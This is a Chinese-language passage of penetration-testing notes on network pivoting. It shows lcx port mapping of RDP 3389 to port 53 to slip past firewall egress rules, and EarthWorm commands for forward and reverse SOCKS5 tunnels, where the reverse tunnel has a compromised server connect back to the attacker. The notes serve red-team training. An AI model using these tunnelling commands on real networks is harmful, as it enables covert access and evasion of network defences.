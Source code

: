 ## tran

如果server中有防火墙不允许3389出站，那么可以用tran将3389映射到防火墙允许出站的端口，比如53端口。

server执行

```powershell
lcx -t 53 172.16.2.8 3389
```

直接连接server:53

数据流向

server 3389 <-> 53 <->attacker

# Earthworm

EW 是一套便携式的网络穿透工具，具有 SOCKS v5 服务架设和端口转发两大核心功能。该工具能够以 “正向”、“反向”、“多级级联” 等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内, 强烈推荐使用。官方地址：http://rootkiter.com/EarthWorm

该工具共有 6 种命令格式：ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran

## 正向socks5

attacker:

```powershell
ew -s ssocksd -l 1080
```

client:

```powershell
C:\Users\Y4er>curl http://172.16.2.8 -x socks5://172.16.1.144:1080
I am 172.16.2.8
```

数据流向

client <-> attacker 1080 <-> server

## 反向socks5

attacker执行，监听8888端口转发到1080端口

```powershell
ew -s rcsocks -l 1080 -e 8888
```

在server中启动socks5服务，并且反弹到attacker的8888端口

```powershell
ew -s rssocks -d 172.16.2.18 -e 8888
```

在client中就可以用这个代理了
